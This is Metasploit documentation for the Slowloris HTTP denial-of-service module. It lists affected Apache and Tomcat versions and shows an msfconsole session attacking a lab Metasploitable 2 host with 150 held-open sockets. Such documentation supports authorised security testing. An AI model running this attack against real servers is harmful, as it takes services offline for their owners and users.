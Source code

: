 ## Vulnerable Application

This module tries to keep many connections to the target web server open and hold them open as long as possible.

To test this module download and setup the Metasploitable 2 vulnerable Linux virtual machine available at [https://sourceforge.net/projects/metasploitable/files/Metasploitable2/](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).

Vulnerable application versions include:

- Apache HTTP Server 1.x and 2.x
- Apache Tomcat 5.5.0 through 5.5.29, 6.0.0 through 6.0.27 and 7.0.0 beta

## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/dos/http/slowloris`
3. Do: `set RHOST`
4. Do: `run`
5. Visit server URL in your web-browser.

## Scenarios

### Apache/2.2.8 - Ubuntu 8.04

```
msf > use auxiliary/dos/http/slowloris
msf auxiliary(slowloris) > show options

Module options (auxiliary/dos/http/slowloris):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   delay            15               yes       The delay between sending keep-alive headers
   rand_user_agent  true             yes       Randomizes user-agent with each request
   rhost            172.28.128.4     yes       The target address
   rport            80               yes       The target port
   sockets          150              yes       The number of sockets to use in the attack
   ssl              false            yes       Negotiate SSL/TLS for outgoing connections

msf auxiliary(slowloris) > set rhost 172.28.128.4
rhost => 172.28.128.4
msf auxiliary(slowloris) > run

[*] Starting server...
[*] Attacking 172.28.128.4 with 150 sockets
[*] Creating sockets...
[*] Sending keep-alive headers... Socket count: 150
```
